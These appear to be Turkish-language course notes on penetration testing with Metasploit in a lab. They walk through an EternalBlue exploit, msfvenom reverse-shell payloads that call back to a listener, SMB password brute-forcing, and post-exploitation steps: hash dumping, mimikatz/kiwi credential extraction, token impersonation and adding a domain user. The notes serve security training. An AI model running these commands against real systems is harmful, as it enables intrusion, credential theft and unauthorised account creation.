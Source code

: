 # Giriş #
## Exploitler ##
  1. Remote Exploitler
  2. Local Exploitler
  3. Web Exploitleri
  4. DoS Exploitleri - Servis Dışı Bırakma
  5. 0day, 1day
  * PAYLOAD -> karşı tarafta nasıl sömüreceğiz? shell mi almak istiyoruz, firewall kuralları mı yazacağız, backdoor mu açacağız?

# METASPLOIT #
  - `msfupdate`
  - `msfdb init` update sonrası yapmak gerekiyor
  - `msfconsole` metasploit açıldı
  - `ctrl+l` satırı yukarı almak
  - `db_status` postgresql veritabanına bağlı mıyım
  - `workspace -a akademi` akademi çalışma ortamı oluşturuldu
  - `workspace -d akademi` silme
  - `workspace akademi2` gibi aralarında değişim yapılabilir.
  - `nmap 192.168.1.200 -oX 200.xml` metasploit kapalıyken tarama yapıp xml dosyası olarak çıktı aldık.
    - msfconsole'u açtık `db_import /root/200.xml` dosyası içeri aldık.
    - `hosts` diye aradığımda hemen çıkıyor
    - `services
  - `vulns` nessus taramasını da atıp buraya atıp zafiyetleri görebiliriz
---
  - `db_nmao 192.168.1.113 -sV` taramasını yaptık direkt olarak kaydedildi.
    - `hosts`
    - `services`
      - `services -h` help dosyası
      - `services -S vsftp` vsftp içerenleri getir
      - `services -S http` http yerine tcp veya udp de yazılabilir.
  - `help`
  - `search ms17-010` ms17-010 zafiyeti ile ilgili bir şey var mı diye aratıyoruz
    - `info 1` 1 numaralı zafiyetin bilgileri
    - `use 1` 
       - `options` RPORT 445, RHOSTS boş
       - `set THREADS 10` 10 thread'te tara
       - `set RHOSTS 192.168.1.200` tek bir hedef belirledik 
       - `services -p 445` 445 portu açık olanlar neler?
       - `services -p 445 -R` böyle yaparak direkt olarak sonucu RHOSTS'a ekledik
       - `run` exploit çalıştı. zafiyet olup olmadığını söyledi.  (VULNERABLE- Host does NOT appear vulnerable)
       - `back` modülden çıktık
  - `search ms17-010` tekrar. eternalblue olanı seçicez
    - `use 2`
    - `options`
    - `set RHOSTS 192.168.1.200`
    - `show targets` windows 7 r2'de çalışıyor sadece
    - _Payload options (windows/x64/meterpreter/reverse_tcp):_  bu zaten default olarak geldi
    - `show payloads` 
      - bind_tcp ile reverse_tcp farkı nedir?
      - Reverse Shell: zafiyeti sömür ve sisteme "ben seni kendi makinemde 4444'te bekliyorum gel bana bağlan ve komut satırını ver" veya meterpretere içeri girdiğini söyle buradan konuşalım diyor.
      - Bind Shell: Karşıdaki zafiyeti sömürdük ve karşı makinede bir port açıyoruz. Biz o porta gidiyoruz. 
      - Neden bunlara ihtiyaç duyuluyor. firewall olsa arada reverse burada daha iyi. 
    - `set PAYLOAD windows/x64/meterpreter/bind_tcp`
    - `run`
    - olmadı `search ms17` diyip başka bir modül seçiyoruz
    - `use 10`
    - `options`
    - `show targets`
    - `set RHOSTS 192.168.1.200`
    - `run` BAĞLANDIK ve shell aldık _meterpreter açıldı_
    - `sysinfo` ile makine bilgilerini aldık. 
    - `background` 
    - `sessions -k 1` 1. oturumu öldür, siler.
    - `sessions -K` tüm oturumları kapatır

# msfvenom #
  * zafiyet bulamadık dolaylı olarak sömürmeye çalışacağız.
  * `msfvenom -h payloads`
  * ![resim](https://user-images.githubusercontent.com/63648396/147675129-41495224-a982-461b-b25c-b4b5b78d5b5c.png)
---
  * `msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.112 lport=443 -f exe > ck.exe` payload üretimi
    *  Payloadu farklı bir tab'da ürettik
    *  ![resim](https://user-images.githubusercontent.com/63648396/147675546-15811bc6-f981-4cac-b95a-63bff016f32a.png)

  * `use exploit/multi/handler`
    * `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
    * `set LHOST 192.168.1.112`
    * `set LPORT 443`
    * `options`
    * farklı bir tab ![resim](https://user-images.githubusercontent.com/63648396/147675458-2ed06845-ee29-4138-a6a6-1af8b1af9b69.png)
    * `exploit -j` java olarak çalışıyor.
---
  - `msfvenom -p /linux/x86/meterpreter/reverse_tcp lhost=192.168.1.112 lport=443 -f elf > ck.elf`
  - `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.113 lport=443 -f raw > ck.php`
  - `chmod +x ck.php` yan tarafta da handler çalışıyor. yukarıda set payload falan dediğimiz exploit -j dediğimiz kısımlar. farklı tab
  - `./ck.php`
  - ![resim](https://user-images.githubusercontent.com/63648396/147675957-892312db-a5b1-4512-a884-74bc9e798413.png)
  - session açıldı ![resim](https://user-images.githubusercontent.com/63648396/147676016-8aa5d9c5-94b4-4673-89e3-30240b402459.png)
    - buradan artık `sessions` yazıp geldiğini gördük. `sessions <number>` ile o oturuma geçtik. shell geldi ve `sysinfo`, `ls` gibi komutları çalıştırıp baktık.
    - eğer ki basit komutlar çalışmıyorsa `stdapi` komutunu deneyebiliriz.

---
# Brute-force #
  - `cd /usr/share/wordlists/metasploit`
  - `cp adobe_top100_pass.txt ~/passlist` sonra ana dizine gittik
  - `search smb_login`
  - `use 0`
  - `options`
  - `services -p 445` 445'i açık olan tüm sistemleri göster.
  - `services -p 445 -R` bir önceki aramada çıkanları RHOSTS olarak ayarla
  - `set PASS_FILE /home/sacrum/passlist`
  - `nano userlist` bir dosya daha oluşturduk içine kullanıcı isimlerini yazdık.
  - bunların dışında domain vermemiz gerekiyor. kendi domainimizi nasıl buluruz? ![resim](https://user-images.githubusercontent.com/63648396/147677399-79ebc48e-4779-446a-a29d-40100c75ed84.png)
  - `set SMBDOMAIN BTKAKADEMI` yazabiliriz ama 101 parolayı buradan yollarsak bir anomali yaratırız. sorun olduğu belli olur.
  - local makinede denesin istiyoruz. bunun için de SMBDOMAIN kısmının `.` olarak kalması yeterli.
  - `set USER_FILE /home/sacrum/userlist`
  - `set THREADS 10`
  -  `set STOP_ON_SUCCESS true` başarılı olduğunda dur.
  -  ![resim](https://user-images.githubusercontent.com/63648396/147677706-a496792a-2ef5-4bd6-8dd6-09724252c669.png)
  -  `run`
  -  `search psexec`
  -  ![resim](https://user-images.githubusercontent.com/63648396/147677851-7f035859-e7b3-4e26-9312-19ad91af4548.png)
  -  _medusa, hydra_ gibi araçları da araştır.

# POST EXPLOIT # 
  - `sysinfo` sistem hakkında bilgi
  - `getuid` ben kimim
  - `getsystem` en yüksek yetkilendirmeye ben geçebiliyor muyum?
  - `getuid` server username: NT AUTHORITY\SYSTEM
  - `shell` 
  - `netusers` kullanıcılar
  - `exit` shell'den meterpretere geri döndük 
  - `hashdump` kullanıcı hashleri, bunları alıp bir yerde sakla _pass the hash saldırıları_ için kullanılabilir
  - `migrate -N lsass.exe` 
  -  `load kiwi` RAM'DEN PAROLA ÇEKTİK - alternatifi _mimikatz_
  -  `creds_all`
    - bir şey çıkmadı ama çıkadabilirdi.
    - ![resim](https://user-images.githubusercontent.com/63648396/147678625-7727be12-362a-4ae5-8bed-5fc024c8c480.png)
  - `load incognito` hedefteki tokenlara bakılabilir
    - `list_tokens -u`
    - `impersonate_token BTKAKADEMI\\Administrator` yazarak tokenleri üstümüze alabiliriz.
    - aldıktan sonra tekrar `shell` diyebiliriz.
  - `net user CK Passwd123! /add /domain` Passwd123! parolaydı. token yetkisi devam ediyorsa komutu çalıştırabiliriz.
    




     






















